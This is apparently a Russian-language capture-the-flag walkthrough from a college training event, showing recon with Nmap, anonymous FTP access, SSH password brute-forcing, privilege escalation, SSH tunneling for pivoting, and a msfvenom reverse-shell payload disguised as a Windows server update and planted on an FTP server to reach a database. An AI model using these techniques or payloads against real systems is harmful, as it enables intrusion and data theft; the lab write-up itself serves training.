



---

***Предисловие***: Данный стенд был подготовлен в рамках мероприятия "***RedShift190***", которое проводил Колледж программирования и Кибербезопасности.

Автор: Abends

---
### Часть 1. Разведка

Для начала в рамках нашей подсети производит сканирование через Nmap на наличие доступных хостов:



Нам удалось найти хост с IP-адресом **172.80.50.10**, который далее сканируем более детально:


Находим FTP с возможностью авторизации от лица anonymous. Входим:



Скачиваем себе все файлы для дальнейшего исследования:


---
### Часть 2. Исследование найденной информации. Захват первого хоста

Среди всех найденных интересных документов, раскрывающих подробности "миссии по колонизации Марса", есть простой текстовый документ ***ToDo.txt***, который содержит в себе следующую информацию:


Список дел, который подписан неким "***kevin***", возможно, это один из пользователей первого хоста. Вот только пароль мы не находим, а из открытых портов остался только SSH, поэтому пробуем сбрутить пароль:


Мы получили пароль "***gabriela***". Подключаемся по SSH к хосту и сразу проверяем сетевые интерфейсы:


Как видим, у этого хоста два сетевых интерфейса, смотрящих в разные подсети:
- 172.80.50.0/24;
- 192.168.20.10/24.

Что по повышению привилегий? А все просто:


С помощью `sudo -i` повышаемся до root-пользователя:


Далее меняем конфиг SSH на Ubuntu для возможности делать в дальнейшем SSH-туннели (не забываем перезапустить службу SSH):

```sh
# /etc/ssh/sshd_config

Port 22
GatewayPorts yes
AllowTcpForwarding yes
```

Также активируем параметр `net.ipv4.ip_forward` для пересылки пакетов между сетевыми интерфейсами:

```sh
# /etc/sysctl.conf

net.ipv4.ip_forward=1
```

Для проверки активации данного параметра необходимо в терминале ввести `sudo sysctl -p`:


На Kali Linux активируем proxychains4:

```sh
# /etc/proxychains4.conf

socks4 127.0.0.1 8888
```

---
### Часть 3. Исследование второго сегмента сети. Получение доступа к контроллеру домена

Сканируем второй сегмент сети при помощи Nmap:


Пробуем подключиться к ***PostgreSQL*** на хосте ***192.168.20.17***. Используем для этого ***proxychains4***. Для начала создаем динамический SSH-туннель (Dynamic Port Forwarding) в фоновом режиме:


Далее пробуем подключиться по одним из дефолтных кредов - ***postgres***:***postgres***:


Нам не удается подключиться, поэтому смотрим другой вектор. Вспоминает, что в файле "***ToDo.txt***" было упоминание о необходимости установить обновление для Windows Server. Подбросим вредоносный файл на FTP-сервер, который даст нам возможность реализовать reverse shell. Для начала подготовим ВПО при помощи ***msfvenom***:

```sh
kali>$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.20.10 LPORT=22222 -f exe -a x64 --platform windows > windows_server_updater.exe
```

Подключение производится на FTP-сервер, а с FTP-сервера будет перенаправление на Kali Linux. Для этого необходимо реализовать удаленный проброс портов (Remote Port Forwarding):

```sh
kali>$ ssh -R 192.168.20.10:22222:localhost:22222 kevin@192.168.20.10 -f -N
```


Загружаем ВПО на FTP-сервер:


> Через SSH на FTP-сервер сделаем `chmod 777 windows_server_updater.exe`

Прослушиваем порт 22222 на Kali Linux:


Теперь имитируем скачивание и активацию файла со стороны администратора домена:





Находим и читаем файл с логином и паролем от PostgreSQL:


---
### Часть 4. Получение доступа к БД

По найденным данным подключаемся к БД:


С помощью команды `\d+` просматриваем таблицы в ***postgres***:


Далее делаем запрос на получение данных: `SELECT * FROM "CyberAtom_Mars_mission_candidates";`:


Вот мы и получили доступ к заветным данным... На этом всё!

---
